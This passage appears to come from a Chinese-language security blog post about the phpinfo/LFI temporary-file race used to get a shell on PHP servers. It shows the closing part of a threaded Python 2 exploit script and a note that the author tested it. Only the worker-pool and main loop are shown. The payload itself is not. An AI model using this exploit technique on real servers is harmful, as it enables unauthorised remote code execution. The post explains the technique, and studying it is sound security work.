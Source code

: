 ```python
    l = threading.Lock()

    print "Spawning worker pool (%d)..." % poolsz
    sys.stdout.flush()

    tp = []
    for i in range(0,poolsz):
        tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))

    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
                if counter >= maxattempts:
                    break
        print
        if e.is_set():
            print "Woot!  \m/"
        else:
            print ":("
    except KeyboardInterrupt:
        print "\nTelling threads to shutdown..."
        e.set()

    print "Shuttin' down..."
    for t in tp:
        t.join()

if __name__=="__main__":
    main()
```

这样的利用方式实际上在 2001 年国外的安全研究人员就发现了，只不过因为条件苛刻很少用到

下面是我用这个脚本测试的例子

[![img](assets/202304161625110.gif)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/phpinfo tmp getshell.gif)
